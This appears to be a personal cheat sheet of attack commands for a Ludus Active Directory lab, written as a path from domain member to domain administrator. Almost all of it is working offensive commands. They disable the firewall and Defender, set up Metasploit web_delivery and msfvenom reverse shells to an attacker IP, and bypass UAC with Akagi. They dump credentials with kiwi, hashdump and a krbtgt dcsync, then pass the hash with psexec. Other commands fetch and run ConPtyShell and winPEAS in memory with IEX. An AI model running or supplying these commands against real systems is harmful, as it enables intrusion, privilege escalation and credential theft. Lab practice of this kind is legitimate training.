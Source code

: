 # set uac
```
set uac to default
```

# disable firewall
```
netsh advfirewall set allprofiles state off
```

# disable antivirus
```
login as Administrator, and disable all antivirus in settings and then
cd Desktop
wget https://github.com/pgkt04/defender-control/releases/download/v1.5/disable-defender.exe -o uwu.exe
.\uwu.exe
```

# on kali
```
git clone https://github.com/fortra/impacket.git
pip install impacket --break-system-packages
pip install -r ./requirements.txt --break-system-packages

uwu.zip
```

### PATH
ludus\domainmember > ludus\domainadmin > dump creds > ludus\domainadmin > Administrator

### win11 ludus\domainmember

```
vim user_handler.rc
use exploit/multi/script/web_delivery
set target PSH\ (Binary)
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 10.5.30.50
set PSH-EncodedCommand false
exploit -j

msfconsole -r user_handler.rc
# windows run command on win11
sessions
sessions 1
```

there will be badly set up service running as domain admin



### win11 ludus\domainadmin
```
net localgroup administrators
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.5.30.50 LPORT=1234 -f exe > rev_shell.exe

cd %TEMP%
upload Akagi64.exe Akagi.exe
upload rev_shell.exe rev_shell.exe
shell
.\Akagi.exe 33 "C:\Users\domainadmin\AppData\Local\Temp\rev_shell.exe"

load kiwi
creds_all
hashdump
dcsync_lsa krbtgt

python3 ~/Desktop/tools/impacket/examples/psexec.py 'domainadmin@10.5.20.13' -hashes :8846f7eaee8fb117ad06bdd830b7586c
psexec \\10.5.20.13 -i -u ludus\domainadmin -p password cmd.exe
```

wget https://github.com/ParrotSec/mimikatz/blob/master/x64/mimikatz.exe 
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250401-a1b119bc/winPEASx64.exe

!todo add exfiltration


```
vim admin_handler.rc
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp 
set LHOST 10.5.30.50
set LPORT 1234
run


msfconsole -r admin_handler.rc
```

### server ludus\domainadmin
!persistence + exfiltration


# raw shell
```
stty raw -echo; (stty size; cat) | nc -lvnp 1337
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.5.30.50 1337
```

powerview
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

adpeas
https://github.com/61106960/adPEAS

winpeas
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS


https://www.microsoft.com/en-us/download/details.aspx?id=104003
group policy management editor > computer configuration > policies > administrative templates > windows components > microsfot defender antivirus